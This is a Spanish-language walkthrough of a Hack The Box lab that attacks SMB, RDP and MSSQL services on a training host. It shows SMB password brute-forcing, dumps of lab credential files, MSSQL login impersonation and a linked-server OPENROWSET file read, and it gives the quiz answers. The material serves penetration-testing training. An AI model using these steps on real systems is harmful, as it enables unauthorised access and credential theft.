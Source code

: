 # Attacking Common Services - Hard

## Enunciado

The third server is another internal server used to manage files and working material, such as forms. In addition, a database is used on the server, the purpose of which we do not know.

## Solución

### nmap

- Encontramos los sguientes puertos abiertos: 
    ```bash
    nmap -p- -v --open -sS --min-rate 5000 -Pn -n -oG openPorts_10.129.194.81 -oN openPorts_10.129.194.81.txt 10.129.194.81
    ```
    Encontrando los siguientes puertos abiertos

    ```txt
    PORT     STATE SERVICE
    135/tcp  open  msrpc
    445/tcp  open  microsoft-ds
    1433/tcp open  ms-sql-s
    3389/tcp open  ms-wbt-server
    ```

### Puerto 445 - `simon`

- Con los datos obtenidos en el laboratorio anterior hacemos fuerza bruta sobre el protocolo `smb`

    ```bash
    nxc smb $target -u 'simon' -p mynotes.txt    
    ```

    Encontrando credenciales válidas: `simon:234987123948729384293`

- Comprobamos que tenemos acceso de lectura a la carpeta `HOME` con el siguiente comando

    ```bash
    nxc smb $target -u 'simon' -p '234987123948729384293' --shares
    ```

- Accedemos al servicio con `smbclient`
    ```
    smbclient -U simon //$target/HOME
    ```

- Descargamos todo el contenido posible (desde la carpeta /home)

    ```bash
    smb: \> mask ""
    smb: \> recurse ON
    smb: \> prompt OFF
    smb: \> lcd ../content/
    smb: \> mget *
    ```

- Con el contenido descargado (hay varias carpetas) listamos los archivos: 

    ```bash
    find . -type f | awk '{print "\n\n=== " $0 " ==="; system("cat " $0)}'
    ```

    obteniendo lo siguiente

    ```textplain
    === ./Simon/random.txt ===
    Credentials

    (k20ASD10934kadA
    KDIlalsa9020$
    JT9ads02lasSA@
    Kaksd032klasdA#
    LKads9kasd0-@

    === ./John/notes.txt ===
    Hack The Box is a massive, online cybersecurity training platform, allowing individuals, companies, universities and all kinds of organizations around the world ...

    === ./John/secrets.txt ===
    Password Lists:

    1234567
    (DK02ka-dsaldS
    Inlanefreight2022
    Inlanefreight2022!
    TestingDB123



    === ./John/information.txt ===
    To do:
    - Keep testing with the database.
    - Create a local linked server.
    - Simulate Impersonation.

    === ./Fiona/creds.txt ===
    Windows Creds

    kAkd03SA@#!
    48Ns72!bns74@S84NNNSl
    SecurePassword!
    Password123!
    SecureLocationforPasswordsd123!!
    ```


- Con esta información podemos responder a la primera pregunta: `What file can you retrieve that belongs to the user "simon"? (Format: filename.txt)`: R: `random.txt`

### Puerto 445 - Fiona

- Hacemos fuerza bruta con `nxc` para obtener la pass de `Fiona`

    ```bash
    nxc smb $target -u 'Fiona' -p Fiona/creds.txt
    ```

    Encontrando credenciales válidas: `Fiona:48Ns72!bns74@S84NNNSl`

    Lo que nos permite responder a la pregunta ` Enumerate the target and find a password for the user Fiona. What is her password?`

    Con la información obtenida antes, también podemos responder a la siguiente pregunta: `Once logged in, what other user can we compromise to gain admin privileges?` R: `john`

### Puerto 3389 - Fiona

- Con las credenciales obtenidas nos podemos conectar por `rdp` a la máquina

    ```bash
    xfreerdp /v:$target /u:Fiona /p:'48Ns72!bns74@S84NNNSl'
    ```

    Con esto podríamos acceder directamente a la basde de datos `MSSQL` como usuario `Fiona` escribiendo `sqlcmd` en powershell. 
    
    También nos podemos conectar a la base de datos escribiendo lo siguiente: 

    ```bash
    /usr/bin/impacket-mssqlclient Fiona@$target -p 1433 -windows-auth
    ```

- Una vez dentro de `mssql` vemos que no tenemos acceso de lectura a todas las bases de datos, por lo que vemos que usuarios podemos suplantar escribiendo lo siguiente: 

    ```sql
    SELECT DISTINCT b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
    ```

    Encontrando como usuarios `john` y `simon`. 
    
- Suplantamos al usuario  `simon`

    ```sql
    EXECUTE AS LOGIN = 'simon'
    ```

- Ahora tenemos acceso de lectura a la base de datos `TestAPPdb` , obteniendo lo siguiente

    ```sql
    SELECT table_name FROM TestAPPdb.INFORMATION_SCHEMA.TABLES
    table_name   
    ----------   
    tb_users     
    select * from tb_users
    username    password           privileges   
    ---------   ----------------   ----------   
    b'patric'   b'Testuser123!'    b'user'      

    b'julio'    b'Testadmin123!'   b'admin' 

    ```

- Aunque parece útil esta información obtenida, comprobamos las bases de datos  enlazadas, 

    ```sql
    SELECT srvname, isremote FROM sysservers;
    ```

    Encontrando una base de datos llamada `LOCAL.TEST.LINKED.SRV`.

- Podemos leer archivos de esta base de datos escribiendo lo siguiente (combinación de lectura de archivos y ejecución de comandos en ):

    ```sql
    execute ('select * from OPENROWSET(BULK ''C:/Users/Administrator/desktop/flag.txt'', SINGLE_CLOB) AS Contents') at [local.test.linked.srv];
    ```

    

